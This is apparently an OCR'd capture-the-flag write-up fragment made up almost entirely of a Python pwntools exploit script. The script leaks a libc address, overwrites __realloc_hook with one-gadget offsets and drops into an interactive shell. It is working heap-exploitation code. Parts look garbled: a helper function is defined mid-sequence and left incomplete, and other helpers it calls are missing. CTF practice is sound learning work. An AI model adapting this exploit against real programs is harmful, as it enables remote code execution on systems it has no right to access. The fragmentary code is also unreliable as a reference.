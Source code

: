 ```py
getdrink(8, 0)
choose(0x210000, 'AAAA')
getleak()
io.recvuntil('You sang ')
libc.address = int(io.recvn(14), 0) + 0x210ff0
log.info('Libc leak {}'.format(hex(libc.address)))
getdrink(8, -1)
target2 = libc.sym.__realloc_hook - 0x8
choose(return_size(target2, pie + 0x202168), 'BBBBBBBB')
def attack(size, data):
    io.recvuntil('> ')
    io.sendline('1')
    io.recvuntil('> ')
    io.sendline(str(size))
choose(0x110, p64(libc.address + 0x4f3c2) + p64(libc.address + 0x10a45c ) + p64(libc.sym.realloc + 8) + 'AAAAAAA')
#pause()
attack(0x100, 'A')
io.interactive()
```

### third_blood ...
****

